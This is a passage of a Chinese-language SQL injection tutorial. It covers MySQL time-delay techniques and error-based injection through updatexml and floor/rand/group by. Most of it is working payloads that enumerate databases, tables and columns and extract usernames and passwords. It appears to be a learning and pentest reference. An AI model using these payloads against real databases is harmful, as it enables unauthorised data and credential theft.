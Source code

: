 利用笛卡尔积制造延时：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>SELECT count(*) from information_schema.columns A, information_schema.columns B, information_schema.tables C;<br>``` |

利用正则表达式匹配长字符串制造延时：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select * from wp_user_ where id =1 and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0)<br>``` |

#### [](#525-%E5%85%B6%E5%AE%83%E5%87%BD%E6%95%B0)5.2.5 其它函数

`count()`：计算总数

`length()`：返回字符串的长度

## [](#6-%E6%8A%A5%E9%94%99%E5%9E%8B%E6%B3%A8%E5%85%A5)6 报错型注入

### [](#61-%E5%8E%9F%E7%90%86)6.1 原理

> 用于使用 SQL 语句报错的语法，用于注入结果无回显，但显示错误信息有输出的情况
> 
> 返回的信息即是攻击者需要的信息

MySQL 报错注入主要分为以下几类：

1.  BigInt 等数据类型溢出
2.  Xpath 语法错误
3.  count() + rand() + group by 导致主键重复
4.  空间数据类型函数错误

### [](#62-%E5%B8%B8%E7%94%A8%E5%87%BD%E6%95%B0)6.2 常用函数

#### [](#621-updatexml)6.2.1 updatexml

> updatexml 第二个参数需要传入的是 Xpath 格式的字符串。输入不符合，将参数值返回并报错。
> 
> 报错长度最大为 32 位

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```sql<br>// 显示当前数据库<br>updatexml(1,CONCAT(0x7e, database()),1)<br><br>// 显示所有数据库<br>updatexml(1,CONCAT(0x7e,(select schema_name FROM INFORMATION_SCHEMA.SCHEMATA limit x,1), 0x7e),1)<br><br>// 获取表名<br>updatexml(1,CONCAT(0x7e,(select table_name from information_schema.tables where table_schema="sectest" limit x,1), 0x7e),1)<br><br>updatexml(1,make_set(3,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)<br><br>// 获取列名<br>updatexml(1,CONCAT(0x7e,(select column_name from information_schema.COLUMNS where table_name="wp_user_" limit 1,1), 0x7e),1)<br><br>updatexml(1,make_set(3,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)<br><br>// 获取数据<br>updatexml(1,CONCAT(0x7e,(select username from wp_user_ limit 0,1), 0x7e),1)<br><br>updatexml(1,CONCAT(0x7e,(select password from wp_user_ where username="admin" limit 0,1), 0x7e),1)<br><br>updatexml(1,CONCAT(0x7e,(select GROUP_CONCAT(username, 0x3a, password) from wp_user_ where id=1), 0x7e),1)<br><br>updatexml(1,make_set(3,'~',(select data from users)),1)#<br>``` |

#### [](#622-floor-%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5)6.2.2 floor 显错注入

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>and (select 1 from (select count(*), concat(user(), floor(rand(0)*2))x from information_schema.tables group by x)a)<br><br>and (select 1 from (select count(*), concat((select group_concat(username,0x3a,password) from wp_user_ where id=1), floor(rand(0)*2))x from information_schema.tables group by x)a)<br>``` |
